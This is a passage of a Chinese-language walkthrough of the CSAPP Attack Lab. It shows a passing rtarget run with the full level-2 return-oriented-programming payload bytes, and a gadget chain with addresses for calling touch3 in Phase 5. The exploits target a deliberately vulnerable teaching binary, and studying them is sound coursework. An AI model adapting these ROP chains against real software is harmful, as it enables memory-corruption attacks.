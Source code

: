 运行得到的结果如下所示，成功调用 touch2 函数，并且传入 cookie 作为参数。

```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ cat rtarget01.txt | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```

## 五、PHASE5

PHASE5 要求调用 touch3 函数，并且传入 cookie 字符串作为参数。本题的解题思路为，先取得栈顶指针的位置，然后取出存在栈中得偏移量的值，接着通过 **`lea (%rdi,%rsi,1),%rax`** 得到 cookie 的地址，将 cookie 字符串的地址传给 %rdi，最后调用 touch3 函数。

完整的注入代码如下所示：

```c{.line-numbers}
// 地址为 0x401a06
movq  %rsp, %rax
ret
// 地址为 0x4019a2
movq  %rax, %rdi
ret
// 地址为 0x4019ab
popq  %rax
nop
ret
// 地址为 0x4019dd
movl  %eax, %edx
nop
ret
// 地址为 0x401a34
movl  %edx, %ecx
cmpb  %cl, %cl
ret
// 地址为 0x401a13
movl  %ecx, %esi
nop
nop
ret
// 地址为 0x4019d6
lea  (%rdi, %rsi, 1), %rax
ret
// 地址为 0x4019a2
movq  %rax, %rdi
ret
```

